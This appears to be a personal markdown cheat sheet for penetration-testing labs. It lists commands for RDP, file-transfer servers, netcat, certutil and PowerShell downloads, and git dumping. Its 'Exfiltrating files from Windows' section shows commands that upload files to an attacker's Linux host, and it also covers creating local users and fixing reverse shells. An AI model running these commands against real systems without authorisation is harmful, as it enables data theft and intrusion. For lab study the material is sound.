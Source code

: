 # 🦩 General

## Connecting to RDP

```shell
# add resolution support
xfreerdp3 /u:user /p:pass /v:<ip> /dynamic-resolution
# add clipboard support
xfreerdp3 /u:user /p:pass /v:<ip> +clipboard
# add a share to easily transfer files
xfreerdp3 /u:user /p:pass /v:<ip> /drive:<name>,<path> 
```

## File Transfers

!!! tip
    Beware of reflected ports!

### HTTP Server

```shell
# simple python server
python -m http.server <port>
# simple python upload-enabled server (optional basic auth)
pip install uploadserver
python -m uploadserver --basic-auth user:pass <port>

# WebDAV server
wsgidav -H 0.0.0.0 -p 80 --auth anonymous -r .

# Apache (copy files to /var/www/html)
sudo systemctl start apache2
```

### SMB Server

```shell
impacket-smbserver -smb2support share $(pwd) 
# win 10+ Compatibility (With Authentication)
impacket-smbserver -smb2support -user test -password test share $(pwd) 
```

### Netcat

```shell
# start a listener (nc|nc.exe)
nc -lvnp <port> > received_file

# send the file
nc <ip> <port> < <file_path>
```

### Downloading files on Windows

```shell
# PowerShell
iwr -uri <uri> -outfile <filename>

# cmd
certutil -urlcache -split -f <uri> <dest>

# copy from smb share
copy \\<ip>\share\<file>

# mount share before copy. (win 10+ w/o Authentication)
net use Z: \\<ip>\share
# mount share before copy. (win 10+ w/ Authentication)
net use Z: \\<ip>\share /u:user 'pass'
```

### Exfiltrating files from Windows

```shell
# send file to python upload-enabled server
Invoke-WebRequest -Uri http://<linux-ip>:<port>/upload -Method Post -InFile C:\path\to\file
curl -F "file=@C:\path\to\file.txt" http://<linux-ip>:<port> -u user:pass

# copy to smb share
copy C:\path\to\file \\<ip>\share
```

### Downloading files on Linux

```shell
# wget and curl
wget http://<ip>:<port>/<file>
curl -O http://<ip>:<port>/<file>
```

## Git

> [git-dumper](https://github.com/arthaud/git-dumper)

```shell
# dump git repo from url
git-dumper <url>/.git ./website

# show commits on a branch
git log
# show commit details and changes
git show <commit>
```

## AWS

!!! warning ""
    Out of scope

Setup credentials if you find access keys

```shell
aws configure
```

### S3

```shell
# list public buckets without credentials
aws s3 ls s3://<bucket>/ --endpoint-url <url> --no-sign-request

# download a bucket
aws s3 cp s3://<bucket> ./

# check bucket policy
aws s3api get-bucket-policy --bucket <bucket> --endpoint-url <url> --no-sign-request

# upload a file to a bucket
aws s3 cp <file> s3://<bucket>/ --endpoint-url <url> --no-sign-request
```

## Windows

### Utils

```shell
# search for a word in a file 
Select-String -Path "sb.txt" -Pattern "password"

# enumerate permissions
icacls "<path>"
Get-ACL "<path>"

# kill a process
taskkill /F /IM chisel.exe
# or by PID
tasklist | findstr chisel.exe
taskkill /PID <PID> /F
```

### User Management

```shell
# enumerate users and groups
net user <user>
net localgroup <group>

# create local user and add it to a group
net user <user> <pass> /add
net localgroup <group> <user> /add

# change local user's password
net user <user> <newpass>
```

## Linux

### Users

```shell
useradd -u <UID> -g <group> <uname>
# switch to user
su - <username>
# without password
sudo su - <username>
# switch to root
su -
sudo su -
```

### Network Connections

```shell
# log incoming traffic on a specific port
sudo tcpdump -nvvvXi tun0 tcp port 8080

# network connections
netstat -antp # check tcp conns on all sockets
ss -ntplu # check tcp and udp listening conns

# kill connection
fuser -k <port>/tcp
fuser -k <port>/udp
kill -9 <PID>
```

### SSH

```shell
# create keys
ssh-keygen -t rsa -b 4096

# transfer data to
scp <file> <user>@<ip>:<path>
# transfer data from
scp <user>@<ip>:<path> <file>
# use legacy SCP protocol instead of SFTP
scp -O <file> <user>@<ip>:<path>
```

### Misc

```shell
# reduce binary size (useful for binaries that are going to be transferred)
upx <bin_path>

# find printable strings in a file
strings

# display dynamic library calls of a process
ltrace
```

## VPN

!!! danger
    Offsec machines and VPN are sometimes unstable.

Reduce MTU if reverse shells are not connecting back.

```shell
ifconfig tun0 mtu 1200
```
